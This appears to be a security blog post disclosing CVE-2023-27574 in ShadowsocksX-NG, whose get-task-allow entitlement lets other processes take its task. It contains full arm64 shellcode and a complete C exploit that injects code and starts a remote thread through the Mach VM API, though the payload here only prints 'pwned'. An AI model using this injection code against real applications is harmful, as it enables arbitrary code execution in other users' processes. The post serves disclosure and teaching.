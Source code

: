 ```yaml
---
title: CVE-2023-27574 - Shadowsocks-NG code execution
description: Exploiting get-task-allow for code execution
date: 2023-03-05T13:45:06.348045+01:00
toc: true
tags:
    - cve
    - vulnerability
    - reverse-engineering
refs:
    - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27574
    - https://github.com/shadowsocks/ShadowsocksX-NG/pull/1456
    - https://shadowsocks.org
draft: false
---
```


# Introduction

Recently, I started playing a bit with different methods of code injection inside the MacOS applications. 
The version of  [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG/releases/tag/v1.10.1) prior to `v1.10.1` has `com.apple.security.get-task-allow` entitlement.

This entitlement allows other processes to obtain the applications task. Obtaining the task means you can do with the process everything you want(code execution, memory read/write etc).

At the end of this post, we will be exploiting this to write `pwned` text to the STDOUT of the application. Nothing fancy about it, just demonstrates the  usage of mach API and a bit of shellcoding for arm64.

We will utilize mach vm API with the `thread_create_running` to execute our shellcode on macOS Ventura running on M1 using arm64 architecture.

# Analysis

Application [ShadowsocksX-NG](https://github.com/shadowsocks/ShadowsocksX-NG) is MacOS client for the original shadowsocks. Shadowsocks is a tool that helps to circumvent firewalls.

To view the entitlements, we can use `codesign -dv --entitlements :- /path/to/the/binary`

```bash
$ codesign -d --entitlements :- /Applications/ShadowsocksX-NG.app/Contents/MacOS/ShadowsocksX-NG 2> /dev/null | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "https://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>com.apple.security.get-task-allow</key>
    <true/>
  </dict>
</plist>
```

We can see that the application has only entitlement, and it is `com.apple.security.get-task-allow`. 

# Mach VM API

We will utilize mach vm api to exploit the entitlement:  
* `task_for_pid` - to obtain the task for the process id of ShadowsocksX-NG  
* `mach_vm_allocate` - to allocate the space inside the process  
* `mach_vm_write` - to write our shellcode inside the allocated space  
* `vm_protect` - to enable executing allocated space
* `thread_create_running` - to run our shellcode inside the process space in a new thread

The exploitation steps are:

1. obtain the pid
2. try to get applications task
3. allocate space for the shellcode
4. allocate space for the stack
5. write shellcode
6. give execute permission at the shellcode address
7. create new thread
8. execute thread

```nasm
.global _main
.align 4

_main:
        mov x0, #1

        mov x4, #0x7770                         ; write wp
        movk x4, #0x656e, lsl #16       ; write en
        movk x4, #0x0a64, lsl #32       ; write \nd
        str x4, [sp, #-8]
        mov x5, #8
        sub x1, sp, x5  

        mov x2, #6 ; length
        mov x16, #0x4
        svc #0x80

        mov x0, #6 ; exit status call
        mov x16, #1
        svc #0xffff
```

Full exploit source code:  
```c
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <ptrauth.h>

#define STACK_SIZE 65536
#define CODE_SIZE 124

extern kern_return_t mach_vm_allocate(task_t task, mach_vm_address_t *addr, mach_vm_size_t size, int flags);
extern kern_return_t mach_vm_read(vm_map_t target_task, mach_vm_address_t address, mach_vm_size_t size, vm_offset_t *data, mach_msg_type_number_t *dataCnt);
extern kern_return_t mach_vm_write(vm_map_t target_task, mach_vm_address_t address, vm_offset_t data, mach_msg_type_number_t dataCnt);

char shellCode[] = "\x20\x00\x80\xd2\x04\xee\x8e\xd2\xc4\xad\xac\xf2\x84\x4c\xc1\xf2\xe4\x83\x1f\xf8\x05\x01\x80\xd2\xe1\x63\x25\xcb\xc2\x00\x80\xd2\x90\x00\x80\xd2\x01\x10\x00\xd4\xc0\x00\x80\xd2\x30\x00\x80\xd2\xe1\xff\x1f\xd4\x01\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x1c\x00\x00\x00\x02\x00\x00\x00\x80\x3f\x00\x00\x34\x00\x00\x00\x34\x00\x00\x00\xb5\x3f\x00\x00\x00\x00\x00\x00\x34\x00\x00\x00\x03\x00\x00\x00\x0c\x00\x01\x00\x10\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00";

pid_t getShadowPID() {
    NSString * appPID = @"com.qiuyuzhou.ShadowsocksX-NG";
    NSArray<NSRunningApplication *> *runningShadowsocks = [NSRunningApplication runningApplicationsWithBundleIdentifier:appPID];
    
    if (runningShadowsocks == nil || [runningShadowsocks count] == 0) {
        printf("[!] Exploit failed!\n");
        exit(-1);
    }
    
    NSRunningApplication *ShadowsocksX_NG = runningShadowsocks[0];
    pid_t shadowPID = [ShadowsocksX_NG processIdentifier];
    
    return shadowPID;
}

int main(int argc, const char * argv[]) {
    pid_t shadowPID = getShadowPID();
    
    task_t remoteTask;
    kern_return_t kr = task_for_pid(current_task(), shadowPID, &remoteTask);
    
    if (kr != KERN_SUCCESS) {
        printf("[!] Failed to get ShadowsocksX-NG's task: %s\n", mach_error_string(kr));
        exit(-2);
    } else {
        printf("[+] ShadowsocksX-NG's task successfully taken over: %d\n", remoteTask);
    }

    mach_vm_address_t remoteStack = (vm_address_t)NULL;
    mach_vm_address_t remoteCode = (vm_address_t)NULL;

    kr = mach_vm_allocate(remoteTask, &remoteStack, STACK_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated stack at: 0x%llx\n", remoteStack);
    }

    kr = mach_vm_allocate(remoteTask, &remoteCode, CODE_SIZE, VM_FLAGS_ANYWHERE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to allocate stack memory: %s\n", mach_error_string(kr));
    } else {
        printf("allocated code at: 0x%llx\n", remoteCode);
    }

    kr = mach_vm_write(remoteTask, remoteCode, (vm_address_t)shellCode,CODE_SIZE);

    if (kr != KERN_SUCCESS) {
        printf("Failed to write code: %s\n", mach_error_string(kr));
    } else {
        printf("written code at: 0x%llx\n", remoteCode);
    }

    kr  = vm_protect(remoteTask, remoteCode, CODE_SIZE, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

    remoteStack += (STACK_SIZE / 2);

    task_flavor_t flavor = ARM_THREAD_STATE64;
    mach_msg_type_number_t count = ARM_THREAD_STATE64_COUNT;

    arm_thread_state64_t state;

    state.__pc = (uintptr_t)remoteCode;
    state.__sp = (uintptr_t)remoteStack;

    thread_act_t thread;
    kr = thread_create_running(remoteTask, flavor, (thread_state_t)&state, count, &thread);

    if (kr != KERN_SUCCESS) {
        printf("error spawning thread: %s\n", mach_error_string(kr));
    } else {
        printf("done\n");
    }

    return 0;
}
```


![Running exploit](../images/shadow_run.png)

